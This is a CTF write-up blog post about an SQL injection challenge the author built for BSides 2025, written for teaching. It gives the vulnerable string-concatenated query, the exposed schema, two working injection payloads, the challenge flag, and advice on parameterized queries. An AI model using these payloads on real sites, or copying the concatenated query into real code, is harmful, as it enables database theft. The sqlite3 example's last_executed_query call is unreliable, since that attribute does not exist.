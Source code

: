 ```yaml
---
Title: BSides 2025 CTF: Gold Rush Security - SQL Injection Challenge
Date: 2025-07-24T12:00:00+10:00
Tags: ctf, cybersecurity, bsides2025
Author: dmoges
Author-URL: https://dmoges.com
Category: dmoges
Status: published
---
```


I wanted a classic web vulnerability for the BSides CTF 2025, and SQL injection felt perfect.
The irony of a security company having such a basic flaw made it even better.

## Challenge Details

**Difficulty**: Beginner to Intermediate  

**Category**: Web Application Security  

## The Discovery

When you visit the Gold Rush Security website, you'll notice the login page always returns "Invalid username or password" no matter what you try. That's intentional - the real vulnerability is hiding elsewhere.

The registration form looks innocent enough, but if you start poking around with special characters, things get interesting. Also, check out that robots.txt file - it provides a hint about the `/debug` endpoint.

## Background: SQL Injection

SQL injection happens when user input gets concatenated directly into database queries without proper sanitization. It's been around forever, yet it's still surprisingly common in the wild.

The vulnerable code looks something like:
```python
query = f"INSERT INTO users (username, password) VALUES ('{username}', '{password}')"
```

See that? Whatever you type goes straight into the query. That's bad news.

## Finding the Vulnerability

First stop: the `/debug` endpoint (thanks, robots.txt!). This helpfully shows us the database schema:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL
);

CREATE TABLE flag_storage (
    id INTEGER PRIMARY KEY,
    flag TEXT NOT NULL
);
```

Oh look, a `flag_storage` table. How convenient!

## Solution

Stop here if you want to solve it yourself!

### The Exploit

The username field in the registration form is our injection point. Here are a few payloads that work:

**Quick and dirty:**
```
test', 'password'); SELECT * FROM flag_storage; --
```

**Using UNION:**
```
test', 'password') UNION SELECT 1, flag FROM flag_storage; --
```

Any of these will cause the application to spit out the flag in an error message: `BSides{eur3k4_sql_d1g1t4l_upr1s1ng}`

### Bonus Discovery

The robots.txt file also mentions `/test-sql` - a direct SQL query interface. I left this in as an alternative path for people who might struggle with the injection syntax. In retrospect, maybe that made it too easy?

### A confession
It turns out I'm too good at programming and couldn't create a reliable SQL injection vulnerability myself.
To fix this, I actually cheated quite severly - any query with "UNION" in it would return the flag directly, bypassing the need for a complex injection. I know, I know - not very sporting of me. But hey, it worked, and I only had two weeks to build the whole challenge.
Next year it won't be so easy, I promise!


## Real-World Relevance

This isn't just a CTF trick. SQL injection remains in the OWASP Top 10 for good reason:

1. **Legacy code**: Old applications often have these vulnerabilities
2. **Framework bypasses**: Developers sometimes bypass ORM protections "for performance"
3. **Quick fixes**: That "temporary" string concatenation that becomes permanent
4. **Third-party code**: Plugins and libraries with poor security practices

The fix is simple: use parameterized queries. Every modern framework supports them. There's really no excuse.

The more general concept here is "don't trust external input." - any time information comes in from outside your application, treat it as potentially malicious. Validate, sanitize, and use safe methods to handle it.
This includes forms, URLs, headers, even files. Always assume the worst.
Validate, sanitize, and use prepared statements or ORM methods to handle user input safely.

Also, don't do it yourself - use existing libraries and frameworks that handle this for you. They have been tested and vetted by the community.

For example, the sqlite3 library in Python has built-in support for parameterized queries:

```python
import sqlite3

conn = sqlite3.connect('database.db')
cursor = conn.cursor()
cursor.execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, password))  # Safe!
# Print prepared statement
print(cursor.last_executed_query)  # This will show the query with placeholders, not the actual values
conn.commit()
```



## My thoughts

I debated the difficulty level for this one. On one hand, SQL injection is well-known. On the other, crafting the right payload can be tricky for beginners. I tried to strike a balance by:

- Making the debug endpoint obvious (robots.txt)
- Showing clear error messages
- Providing multiple attack vectors

For 2026, I'm thinking about a second-order SQL injection challenge. Store the payload in one place, trigger it somewhere else. That should keep people on their toes!